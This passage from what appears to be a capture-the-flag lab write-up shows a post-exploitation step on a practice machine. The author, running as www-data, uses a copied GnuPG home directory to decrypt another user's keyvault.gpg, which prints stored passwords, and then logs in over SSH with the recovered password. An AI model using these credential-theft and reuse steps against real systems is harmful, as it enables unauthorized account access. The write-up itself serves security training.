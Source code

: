 Now that folder is now belongs to **www-data** user. <br>
&rarr; Now we can decrypt the `keyvault.gpg` file.

```bash
www-data@environment:/tmp$ gpg --homedir /tmp/.gnupg --output /tmp/keyvault.txt --decrypt /home/hish/backup/keyvault.gpg
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
```

```bash
www-data@environment:/tmp$ ls -la
total 44
drwxrwxrwt 10 root     root     4096 Aug 20 15:41 .
drwxr-xr-x 18 root     root     4096 Apr 30 00:31 ..
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .ICE-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .X11-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .XIM-unix
drwxrwxrwt  2 root     root     4096 Aug 20 13:00 .font-unix
drwxr-xr-x  4 www-data www-data 4096 Aug 20 15:41 .gnupg
-rw-r--r--  1 www-data www-data  107 Aug 20 15:41 keyvault.txt
drwx------  3 root     root     4096 Aug 20 13:01 systemd-private-06add1c7763d4c8988870fcb3cac3170-systemd-logind.service-wzq8Ff
drwx------  3 root     root     4096 Aug 20 13:00 systemd-private-06add1c7763d4c8988870fcb3cac3170-systemd-timesyncd.service-i3fHN6
drwx------  2 root     root     4096 Aug 20 13:01 vmware-root_564-2965382482
www-data@environment:/tmp$ cat keyvault.txt 
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

Got another credentials that could probably for `hish` user. <br>
&rarr; `marineSPm@ster!!`.

```bash
└─$ ssh hish@10.129.9.78             
hish@10.129.9.78's password: 
hish@environment:~$ ls -la
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Aug 20 15:43 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
-rw-r--r-- 1 root hish   33 Aug 20 13:01 user.txt
```

Nailed it.
